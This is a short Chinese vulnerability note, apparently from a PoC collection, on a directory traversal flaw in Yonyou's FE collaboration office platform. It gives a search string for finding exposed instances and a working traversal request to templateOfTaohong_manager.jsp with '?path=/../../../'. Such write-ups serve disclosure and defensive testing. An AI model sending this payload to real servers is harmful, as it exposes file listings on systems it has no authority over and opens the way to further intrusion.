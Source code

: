# 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

```
用友 FE协作办公平台
```

## 网络测绘

```
"FE协作"
```

## 漏洞复现

登录页面

![image-20220520141413849](./images/202205201414968.png)

验证POC

```
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![image-20220520141519859](./images/202205201415920.png)